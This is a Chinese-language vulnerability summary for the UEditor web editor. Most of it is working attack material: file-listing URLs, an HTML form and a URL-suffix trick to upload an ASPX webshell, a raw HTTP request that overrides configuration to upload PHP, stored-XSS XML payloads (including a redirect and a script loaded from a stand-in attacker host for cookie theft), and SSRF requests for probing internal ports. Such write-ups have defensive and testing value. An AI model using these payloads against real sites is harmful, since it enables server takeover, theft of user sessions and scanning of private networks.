 # Ueditor 编辑器漏洞总结

## 漏洞描述

UEditor 是由百度「FEX前端研发团队」开发的所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于MIT协议，允许自由使用和修改代码。

界面如下：

![ueditor-1](images/ueditor-1.webp)

## 漏洞复现

### 0x01 文件读取漏洞

file 目录文件读取：

```
http://www.xxxx.com/net/controller.ashx?action=listfile
```

image 目录文件读取：

```
http://www.xxxx.com/ueditor/net/controller.ashx?action=listimage
```

### 0x02 .net版本 任意文件上传

只适用于 .net 版本，存在于`1.4.3.3`、`1.5.0`和`1.3.6`版本中。

准备一台服务区存放图片马或者需要上传的文件，本地构造一个 `html` 页面用于上传使用

```html
<form action="http://www.xxxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">

    <p>shell addr: <input type="text" name="source[]" /></p>

    <input type="submit" value="Submit" />

</form>
```

![ueditor-2](images/ueditor-2.webp)

- `shell addr` 处填写服务器上图片码地址，构造成以下格式，绕过上传使其解析为 `aspx`

```
http://xxxx/1.gif?.aspx
```

- 成功上传返回上传路径，可直连 getshell

![ueditor-3](images/ueditor-3.webp)



### 0x03 php版本文件上传

poc：

```
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4
———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; name="fuck"; filename="fuck.php"
Content-Type: application/octet-stream
<?php 
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—

shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定
http://localhost/ueditor/php/upload/fuck.php
```

### 0x03 存储型xss

```
<html>

<head></head>

<body>
    <something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>

</html>

盲打 Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

上传点：

```
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

将`uploadimage`类型改为`uploadfile`，修改文件后缀名为`.xml`：

![ueditor-4](images/ueditor-4.webp)

上传成功，访问成功弹框：

![ueditor-5](images/ueditor-5.webp)

#### 一些常见的xml弹窗poc

弹窗xss：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>
```

url跳转：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>
```

远程加载js：

```
<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>
```

### 0x04 ssrf

该漏洞存在于`1.4.3`的`jsp版本`中，`1.4.3.1`版本已经修复。

该版本ueditor的ssrf触发点：

```php
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```

使用百度logo构造poc：

```
http://xxx/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```

内网端口探测：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

判断该地址对应的主机端口是否开放：

- 如果抓取不存在的图片地址时，页面返回如下，即state为"远程连接出错"。

```
{"state": "SUCCESS", list:[{"state":"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
```

- 如果成功抓取到图片，页面返回如下，即state为"SUCCESS"。

```
{"state": "SUCCESS", list: [{"state":"SUCCESS","size":"5103","source":"http://192.168.135.133:8080/tomcat.png","title":"1527173588127099881.png","url":"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
```

- 如果主机无法访问，页面返回如下，即state为"抓取远程图片失败"。

```
{"state":"SUCCESS", list: [{"state":"\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25"}]}
```

还有一个版本的ssrf漏洞 ，存在于onethink 1.0中的ueditor，测试版本为1.2。poc：

```
POST http://xxx/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: keep-alive

upfile=https://www.google.com/?%23.jpg
```


